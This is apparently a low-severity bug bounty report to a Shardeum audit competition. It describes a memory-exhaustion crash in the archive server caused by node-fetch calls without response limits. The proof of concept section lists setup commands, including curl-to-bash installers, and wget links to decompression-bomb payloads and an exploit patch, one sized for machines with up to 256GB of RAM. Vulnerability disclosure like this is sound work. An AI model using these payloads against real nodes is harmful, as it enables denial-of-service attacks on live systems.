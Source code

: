 # #39993 \[W\&A-Low] node-fetch without response limit

**Submitted on Feb 12th 2025 at 12:01:18 UTC by @riproprip for** [**Audit Comp | Shardeum: Ancillaries III**](https://immunefi.com/audit-competition/audit-comp-shardeum-ancillaries-iii)

* **Report ID:** #39993
* **Report Type:** Websites and Applications
* **Report severity:** Low
* **Target:** https://github.com/shardeum/archive-server/tree/itn4
* **Impacts:**
  * Taking down the application/website

## Description

## Brief/Intro

The archiver uses `node-fetch` without response size limits. This allows attackers to use up all the memory on the system until it crashes.

## Vulnerability Details

`node-fetch` should be called with a response limit. Since a limit is not supplied and `node-fetch` allows compressed responses, the counterparty can return a bunch of compressed stuff to use very little bandwith/transfer volume/resources to crash a node.

Please note that while the attacker does not initiate the attack itself, the victim has to make contact with other archivers/nodes to function (giving attackers the option to strike).

## Impact Details

Usually just the node process gets killed. In rare cases the OS also kills other processes.

## References

This happens on multiple occasions throughout the code. A search for "fetch(" probably finds all the instances.

\[1] Youtube video demonstrating on a 16GB memory system. `https://youtu.be/cGheyyusKXc`

## Notes

Since this bug is similar in nature to `39395` it makes sense to go through triage with that one first. Before resolving this bug.

## Proof of Concept

## Proof of Concept

The POC is very similar to: 39395

### steps

```
apt-get update
apt-get -y install git-core curl build-essential python3 vim 

wget -O "/tmp/compressed_34.json" "https://gist.githubusercontent.com/cki/74224edfa2ba4dd2cdf78e4f229bcc38/raw/a14c7f76032f84ea0af2ae63c0e94df693611e80/gistfile1.txt"
wget -O "/tmp/shardeum-archiver-poc.patch" "https://gist.githubusercontent.com/cki/3e698c1a305a888fdc8638085314c951/raw/8b6812c9aec66f7da4eff21a911b3b8f37ac160b/shardeum-archiver-poc.patch"

curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.7/install.sh | bash > /dev/null
export NVM_DIR="$HOME/.nvm"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh"  # This loads nvm
[ -s "$NVM_DIR/bash_completion" ] && \. "$NVM_DIR/bash_completion"  # This loads nvm bash_completion
nvm install 18.19.1 2> /dev/null
nvm use 18.19.1 2> /dev/null
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
source "$HOME/.cargo/env"
rustup install 1.74.1
rustup default 1.74.1

git clone https://github.com/shardeum/shardeum.git
cd shardeum && git checkout tags/bugbounty
nvm use 18.19.1
git apply debug-10-nodes.patch ( keeping the mode in release ) 
# manually edit src/config/index.ts -> flexibleRotationDelta: 0
npm ci ;
npm run prepare ; 
npm install -g shardus ;
npm update @shardus/archiver ;

git apply /tmp/shardeum-archiver-poc.patch

free -m
shardus start 1 pm2--no-autorestart # start one node and one archiver
shardus start 1 -a 1 pm2--no-autorestart # start a second archiver
```

### notes

Should your node have more than 16GB of RAM please use following link for the compressed\_34.json. It works up till 256GB of RAM.

`https://gist.githubusercontent.com/cki/bcc3d28f00c57db78b8916dcc0386462/raw/87f582828ebcb645207b5f1d546dc4b072ab017f/256gb_compressed.json`
